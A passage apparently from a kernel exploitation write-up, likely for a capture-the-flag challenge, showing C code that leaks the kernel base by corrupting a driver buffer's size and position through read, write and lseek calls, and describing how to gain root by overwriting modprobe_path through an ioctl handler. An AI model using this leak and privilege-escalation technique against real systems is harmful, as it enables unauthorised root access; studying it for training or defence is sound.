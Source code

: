 ```c 
    }
    printf("Kernel base: %p\n", kernel_base);
    break;
}
if (kernel_base == 0) {
    printf("Kernel base not found... try again\n");
    return -1;
}
```

`try_read_kernel` uses the read, write and seek functions to achieve what was explained above:
```c
size_t try_read_kernel(int fd, size_t current_buffer, int adjust_initial_pos) {
    if (adjust_initial_pos) {
        // set buffer->pos to 511
        for (int i = 0; i < 2; i += 1) {
            char buf[256] = { 0 };
            read(fd, buf, sizeof buf);
        }
    }

    // set size to a large value so we can freely control
    // buffer->pos
    {
        struct {
            char __padding;
            size_t size;
            size_t read : (64 - 8);
        } __attribute__((packed)) buf = {
            .size = 0xffffffffffffffff,
            .read = 0,
        };
        write(fd, &buf, sizeof buf);
    }

    // set buffer->pos such that we can read the cpu_entry_area
    {
        lseek(fd, cpu_entry_area - current_buffer - 8, SEEK_SET);
    }

    // read the leak
    {
        char buf[16] = { 0 };
        read(fd, buf, sizeof buf);
        return *(size_t *)buf;
    }
}
```

Now that we have a kernel leak, we can proceed with the exploit. The easiest way is to overwrite `modprobe_path`,
which is a string in memory defining the path to a program that will be called (with root privileges) when the user
tries to execute a file with an unknown magic header. The path is stored in a writable page, and since we have the 
kernel base, we can compute its address. But we still need an arbitrary write. We can go with a similar technique for
leaking the kernel address, by using the sprayed buffers, but we have a more reliable way through `ioctl` calls. We have
an `ioctl` code for renaming the buffer, which writes whatever we want into the buffer pointed at by the `->name` field.
We can use a file descriptor, set its `->pos` to the offset of `->name`, write the address of `modprobe_path` and call
the `ioctl` handler to overwrite `modprobe_path`.
